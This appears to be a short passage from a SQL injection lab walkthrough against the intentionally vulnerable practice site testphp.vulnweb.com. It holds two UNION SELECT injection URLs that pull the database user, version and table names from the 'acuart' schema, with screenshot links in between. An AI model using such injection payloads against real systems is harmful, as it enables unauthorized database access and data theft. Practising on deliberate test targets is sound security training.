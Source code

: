 ```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,table_name,10,11 from information_schema.tables where table_schema="acuart"
```

![image-20211013150633447](images/image-20211013150633447.png)



**To make it more clear and shorter**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,group_concat(table_name),10,11 from information_schema.tables where table_schema="acuart"
```

![image-20211013151349692](images/image-20211013151349692.png)
